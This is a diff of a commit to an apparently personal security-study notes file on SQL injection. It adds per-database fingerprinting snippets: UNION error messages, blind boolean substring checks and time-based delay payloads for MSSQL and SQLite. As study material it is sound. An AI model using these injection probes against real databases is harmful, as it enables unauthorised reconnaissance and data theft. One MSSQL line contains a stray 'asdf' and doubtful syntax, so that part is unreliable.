

Before and after one commit to Hueok/study_security, a Markdown page: sql/sum.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/sql/sum.md
+++ b/sql/sum.md
@@ -304,25 +304,33 @@ oracle> SELECT * FROM all_users
 <br />
 
 ## DBMS Fingerprinting
-#### ___when output of query is showed___ : use environment variable and functions each DBMS support. -> get dbms version
+#### ___when RESULT of QUERY is showed___ : use environment variable and functions each DBMS support. -> get dbms version
 ```sql
 select @@version
 select version()
+sqlite> select sqlite_version();
 ```
-#### ___when error message being printed___ : about error based sqli...
+#### ___when ERROR MESSAGE being printed___ : about error based sqli...
 ```sql
 select 1 union select 1, 2;
 # MySQL => ERROR 1222 (21000): The used SELECT statements have a different number of columns
+# PostgreSQL => ERROR:  each UNION query must have the same number of columns \nLINE 1: select 1 union select 1, 2;
+# MSSQL => Msg 205, Level 16, State 1, Server e2cb36ec2593, Line 1 \nAll queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.asdf
+# SQlite => Error: SELECTs to the left and right of UNION do not have the same number of result columns
 (select * from not_exists_table)
 # SQLite => Error: no such table: not_exists_table
+
 ```
-#### ___when can check boolean output of query___ : about blind sqli... : compare byte by byte
+#### ___when can check BOOLEAN OUTPUT of query___ : about blind sqli... : compare byte by byte
 ```sql
 mid(@@version, 1, 1)='5';
 substr(version(), 1, 1)='P';
+select 1 from {TABLE} where substring(@@version, 1, 1)='M'; #mssql
 ```
 #### ___Exception___ : if not any showing, use time based sqli
 ```sql
 sleep(10)
 pg_sleep(10)
+mssql> select '' if(substring(@@version, 1, 1)='M') waitfor delay '0:0:5'; # mssql : waitfor delay | find first letter 'M'
+sqlite> select case when substr(sqlite_version(), 1, 1)='3' then LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(300000000/2)))) else 1=1 end; #find first letter '3'
 ```
````
